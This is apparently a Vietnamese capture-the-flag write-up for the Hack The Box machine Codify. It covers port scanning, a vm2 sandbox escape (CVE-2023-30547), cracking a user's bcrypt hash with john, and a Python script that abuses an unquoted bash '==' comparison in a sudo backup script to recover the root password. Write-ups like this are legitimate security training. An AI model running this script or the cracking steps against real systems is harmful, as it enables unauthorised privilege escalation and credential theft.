


Codify là một machine mức độ easy dựa trên lỗ hổng của thư viện trong Node.js để thực hiện RCE, cũng như lợi dụng các lỗ hổng trong **bash** để thực hiện leo thang đặc quyền lên `root`

## Reconnaissance and Scanning

```python
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack Apache httpd 2.4.52
|_http-title: Codify
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    syn-ack Node.js Express framework
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Thêm domain `codify.htb` vào file hosts.

`sudo nano /etc/hosts`

```
127.0.0.1       localhost
127.0.1.1       4nhHT.  4nhHT
10.10.11.239    codify.htb
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## Enumeration

Truy cập web với port 3000. Sau khi kiểm tra một lượt các page của web này, tôi tìm thấy phần có thể khai thác ở đây



Thử truy cập vào link vm2, tôi được vm2 phiên bản 3.9.16. Tìm kiếm phiên bản này trên internet, tôi tìm thấy [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m). Theo các bước của PoC



Thử thay thế payload để lấy RCE


## User Flag

Tìm kiếm xoay quanh các file thư mục trong `/var/www/`, tôi tìm thấy 1 file db

```python
svc@codify:~$ ls -la /var/www/contact
ls -la /var/www/contact
total 120
drwxr-xr-x 3 svc  svc   4096 Sep 12  2023 .
drwxr-xr-x 5 root root  4096 Sep 12  2023 ..
-rw-rw-r-- 1 svc  svc   4377 Apr 19  2023 index.js
-rw-rw-r-- 1 svc  svc    268 Apr 19  2023 package.json
-rw-rw-r-- 1 svc  svc  77131 Apr 19  2023 package-lock.json
drwxrwxr-x 2 svc  svc   4096 Apr 21  2023 templates
-rw-r--r-- 1 svc  svc  20480 Sep 12  2023 tickets.db
svc@codify:~$ cat /var/www/contact/tickets.db
cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ************************
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
svc@codify:~$
```

Tôi có user **joshua** và password hash của user này. Sao chép nó về và crack bằng `john`

```python
┌──(neo㉿4nhHT)-[~/HTB-Codify]
└─$ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Created directory: /home/neo/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 20 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********       (?)
1g 0:00:00:19 DONE (2024-03-24 22:09) 0.05122g/s 73.77p/s 73.77c/s 73.77C/s scotty..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Login SSH bằng user **joshua**

```python
┌──(neo㉿4nhHT)-[~/HTB-Codify]
└─$ ssh joshua@10.10.11.239
The authenticity of host '10.10.11.239 (10.10.11.239)' can't be established.
ED25519 key fingerprint is SHA256:Q8HdGZ3q/X62r8EukPF0ARSaCd+8gEhEJ10xotOsBBE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.239' (ED25519) to the list of known hosts.
joshua@10.10.11.239's password:
joshua@codify:~$ id
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
joshua@codify:~$ ls
python.py  script.py  user.txt
joshua@codify:~$
```

## Privilege Escalation

`sudo -l`

```python
joshua@codify:~$ sudo -l
[sudo] password for joshua:
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
joshua@codify:~$
```

Phân tích file bash này và tìm hiểu thông tin trên internet, tôi tìm thấy lỗ hổng trong việc so sánh DB_PASS và USER_PASS, được gọi là `unquoted variable comparison`, nó liên quan đến 2 dấu bằng `==`.

HIểu đơn giản là trong bash, nếu phía bên phải của dấu `==` không được trích dẫn trực tiếp, bash sẽ thực hiện khớp mẫu thay vì so sánh chuỗi. Trong trường hợp này, chúng ta có thể khớp bất kỳ ký tự nào mà được theo sau bởi một số lượng ký tự nào đó, ví dụ `a******`, `AB*****`

Áp dụng lỗi này, tôi sẽ viết một đoạn mã python đơn giản để kiểm tra mật khẩu, với logic đơn giản là thử từng ký tự một trong chuỗi password và theo sau bởi một số lượng ký tự bất kỳ nào đó. 

```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] done, root password is: "+password)
```

Tạo 1 file `exploit.py` trên máy codify, sao chép đoạn code trên và lưu để chạy

```python
joshua@codify:~$ nano exploit.py
joshua@codify:~$ python3 exploit.py
[sudo] password for joshua:
[+] new character found: k
[+] new character found: kl
[+] new character found: klj
[+] new character found: kljh
[+] new character found: kljh1
[+] new character found: kljh12
[+] new character found: kljh12k
[+] new character found: kljh12k3
[+] new character found: kljh12k3j
[+] new character found: kljh12k3jh
[+] new character found: kljh12k3jha
[+] new character found: kljh12k3jhas
[+] new character found: kljh12k3jhask
[+] new character found: kljh12k3jhaskj
[+] new character found: kljh12k3jhaskjh
[+] new character found: kljh12k3jhaskjh1
[+] new character found: kljh12k3jhaskjh12
[+] new character found: kljh12k3jhaskjh12k
[+] new character found: *******************
[+] new character found: ********************
[+] new character found: *********************
[+] done, root password is: **********************
joshua@codify:~$
```

Login vào `root`

```python
joshua@codify:~$ su root
Password:
root@codify:/home/joshua# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:/home/joshua# ls /root
root.txt  scripts
root@codify:/home/joshua#
```
